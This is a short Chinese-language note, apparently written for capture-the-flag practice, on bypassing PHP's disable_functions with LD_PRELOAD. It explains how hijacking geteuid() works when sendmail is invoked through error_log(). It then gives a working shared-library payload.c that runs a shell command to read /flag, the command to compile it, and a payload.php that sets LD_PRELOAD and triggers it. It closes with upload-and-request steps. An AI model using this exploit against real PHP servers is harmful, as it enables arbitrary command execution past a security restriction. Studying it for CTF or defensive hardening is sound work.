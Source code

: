 # Bypass disable\_function

### LD\_PRELOAD

LD\_PRELOAD是Linux系统的一个环境变量，用于动态库的加载，动态库加载的优先级最高,即加载动态库时先加载LD\_PRLOAD，它可以影响程序的运行时的链接（Runtime linker）。LD\_PRELOAD的功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。

程序中我们经常要调用一些外部库的函数，以sendmail程序中的geteuid()为例，如果我们有个自定义的geteuid()函数，把它编译成动态库后，通过LD\_PRELOAD加载，当程序中调用geteuid()函数时，调用的其实是我们自定义的geteuid()函数。而在PHP中error\_log()和mail()函数在传入特定参数时都会调用到sendmail外部程序进而调用外部库的函数geteuid()。

payload.c:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
        system("tac /flag > result.txt");
}   

int  geteuid() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
payload();
}
```

编译

```
cc -shared -fPIC payload.c -o payload.so

```

payload.php

```php
<?php
putenv("LD_PRELOAD=/var/www/html/payload.so");//注意路径
error_log("text",1,"","");
?>
```

上传payload.so到服务器，在上传payload.php到服务器，然后请求payload.php，既可以运行我们的payload函数
